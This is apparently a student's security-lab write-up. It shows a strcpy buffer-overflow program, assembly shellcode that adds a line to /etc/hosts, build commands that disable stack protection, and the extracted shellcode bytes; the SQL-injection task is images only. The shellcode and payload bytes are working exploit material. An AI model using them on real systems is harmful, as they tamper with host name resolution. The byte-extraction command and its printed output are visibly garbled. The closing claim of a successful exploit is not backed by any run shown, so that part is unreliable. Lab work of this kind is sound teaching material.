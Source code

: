 # Lab #1,22110025, La Huy Hoang, INSE330380E_02FIE

# Task 1: Software buffer overflow attack

## Assignment Questions

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

## Solution

### **Build Docker Image**

A Docker image was built to create a controlled environment for the experiment.

```
docker build -t img4lab .
```

![1729567483647](Lahuyhoang/1729567483647.png)

### **Run Docker Container**

The Docker container was run with the necessary privileges and volume mounts.

```
docker run -it --privileged -v C:/Users/HOANG/seclabs:/home/seed/seclabs img4lab
```

```
seed@6b36587fc303:$ cd
.bash_logout  .bashrc       .gdbinit      .profile      peda/         seclabs/
seed@6b36587fc303:$ cd seclabsseed@6b36587fc303:/seclabs$ cd
.vscode/         buffer-overflow/ lab1/
seed@6b36587fc303:/seclabs$ cd lab1
```

### **Compile the Vulnerable C Program**

The vulnerable C program was compiled with specific flags to disable stack protection and allow executable stacks.

```
seed@6b36587fc303:~/seclabs/lab1$ gcc -m32 -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```

### **Assemble the Shellcode**

The shellcode was assembled into an object file using NASM.

```
seed@6b36587fc303:~/seclabs/lab1$ nasm -g -f elf shellcode.asm -o shellcode.o
```

### **Link the Shellcode**

The object file was linked to create an executable.

```
seed@6b36587fc303:~/seclabs/lab1$ ld -m elf_i386 shellcode.o -o shellcode
```

### **Disassemble the Shellcode**

The shellcode was disassembled to verify its contents.

```
seed@6b36587fc303:~/seclabs/lab1$ objdump -d shellcode
```

![1729568266762](Lahuyhoang/1729568266762.png)

![1729568315316](Lahuyhoang/1729568315316.png)

### **Generate the Payload**

A payload was generated by extracting the shellcode bytes and preparing them for the buffer overflow attack.

```
for i in $(objdump -d shellcode | grep "^ " | cut -f2); do echo -n '\x'(objdump -d shellcode | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

![1729569367063](Lahuyhoang/1729569367063.png)

```
$i; done; echo
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x127.1.1.1\xgoogle\x2e\x63\x6f\x6d\x.com
seed@6b36587fc303:~/seclabs/lab1$
```

## Conclusion

By following these steps, the buffer overflow vulnerability in the C program was successfully exploited to execute the shellcode, which added a new entry to the `/etc/hosts` file. This demonstrates the potential impact of buffer overflow vulnerabilities and the importance of secure coding practices

# Task 2: Attack on the database of Vulnerable App from SQLi labSoftware buffer overflow attack

![1729570005912](Lahuyhoang/1729570005912.png)

![1729570109569](Lahuyhoang/1729570109569.png)

![1729570193192](Lahuyhoang/1729570193192.png)
